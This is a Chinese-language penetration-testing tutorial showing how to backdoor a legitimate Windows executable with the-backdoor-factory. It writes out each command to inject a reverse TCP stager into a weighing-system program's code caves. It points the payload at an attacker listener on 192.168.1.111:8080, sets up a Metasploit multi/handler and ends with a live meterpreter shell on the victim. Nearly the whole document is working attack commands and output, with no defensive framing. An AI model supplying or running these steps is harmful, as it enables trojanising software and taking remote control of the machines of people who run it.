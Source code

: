 项目地址：
https://github.com/secretsquirrel/the-backdoor-factory

### 原理
可执行二进制文件中有大量的 00，这些 00 是不包含数据的，将这些数据替换成 payload，并且在程序执行的时候，jmp 到代码段，来触发 payload。

### 以项目中的过磅系统为例：

```bash
root@John:~/Desktop# git clone https://github.com/secretsquirrel/the-backdoor-factory.git 
//安装the-backdoor-factory 
```  
![](media/baa5f2ef8bc4b8332d377e179c2897d1.jpg)

```bash
root@John:~/Desktop/the-backdoor-factory# ./backdoor.py -f ~/demo/guobang.exe -S 
//检测是否支持后门植入
```  
![](media/65f5db4ee779eaacdff8a20bdfd35ea8.jpg)

```bash
root@John:~/Desktop/the-backdoor-factory# ./backdoor.py -f ~/demo/guobang.exe -c -l 150 
//测试裂缝空间size150
```  
![](media/2b8e42c3fe1195f37bf7b01fb31af21b.jpg)

```bash
root@John:~/Desktop/the-backdoor-factory# ./backdoor.py -f ~/demo/guobang.exe -s show 
//查看可用payload
```  
![](media/c576aabd967bcbbf39467dcf40ec2759.jpg)

```bash
root@John:~/Desktop/the-backdoor-factory# ./backdoor.py -f ~/demo/guobang.exe -H 192.168.1.111 -P 8080 -s iat_reverse_tcp_stager_threaded 
//插入payload，并生成文件。
```  
![](media/1dbc7c753b5135a67db8ac3bee6f3352.jpg)

```bash
root@John:~/Desktop/the-backdoor-factory# md5sum ./guobang.exe /root/demo/guobang.exe
//对比原文件与生成文件MD5值
```  
![](media/999c8d02e798b61f61a4d8cd284ffd0b.jpg)

```bash
root@John:~/Desktop/the-backdoor-factory# du -k ./guobang.exe /root/demo/guobang.exe
//对比文件大小
```  
![](media/edd13750f6b3e03121e63e805b4a5b97.jpg)

```bash
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.111
lhost => 192.168.1.111
msf exploit(handler) > set lport 8080
lport => 8080
msf exploit(handler) > exploit -j 
//开启本地监听
```  
![](media/94330fb03737c7e42549f1b9b3a8bb21.jpg)

//打开软件  
![](media/2139e4a1c0c1e326605cf246742ff3a5.jpg)

```bash
meterpreter > getuid
Server username: John-PC\John 
```
//确定目标  

![](media/613afd4b9343cfd43965aa934b71cc48.jpg)

>   Micropoor
